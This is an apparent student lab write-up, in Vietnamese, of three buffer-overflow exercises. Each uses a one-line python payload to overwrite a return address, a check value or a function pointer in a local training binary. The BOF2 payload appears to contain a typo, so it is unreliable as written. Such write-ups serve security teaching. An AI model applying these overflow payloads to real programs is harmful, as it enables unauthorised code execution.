





# LAB1
## BOF1
Điểm yếu để tấn công: Hàm get() không giới hạn số lượng data mà mình nhập vào => dẫn đến việc có thể nhập vào vượt quá số lượng => overflow the buffer! 

Trong bài này mình sẽ sử dụng lỗi đó của hàm get để mà overflow lên cái return address ở hàm vuln => chuyển sang hàm secretFun() 

Hình ảnh stack frame:

Vào gdb để lấy địa chỉ hàm mysecretFunc()
 

Địa chỉ : 0x0804846b

Sau đó dùng lệnh `echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.o`.
Để truyền vào hàm gets khi nó muốn chúng ta nhập vào

### Kết quả:
 

Chúng ta đã thành công kêu hàm secretFunc()

---
## BOF2
Điều bất hợp lí để tấn công buffer-overflow : buf chỉ có 40 nhưng fgets đọc đến tận 44 kí tự => ta có thể dùng 4 kí tự sau để thay đổi giá trị check

 

Stack frame của bài:

 

Ta sẽ dùng câu lệnh `echo $(python -c "print('a'*40 + '\xef\xbe\xad\de')") | ./bof2.o`. Để cung cấp cho fgets chuỗi khi nó đòi chúng ta nhập vào

### Kết quả:
 
---
## BOF3
Tương tự như bài BOF2: ở đây buf chỉ lấy 128 kí tự nhưng fgets được nhập dư để lấy 132 kí tự => sử dụng điều đấy để tấn công

 

Stack frame của bài: 

 

Ta sẽ lấy địa chỉ của hàm shell() để đè lên giá trị của con trỏ func! 

 

Địa chỉ: 0x0804845b

Sử dụng câu lệnh: `echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.o`

### Kết quả
 

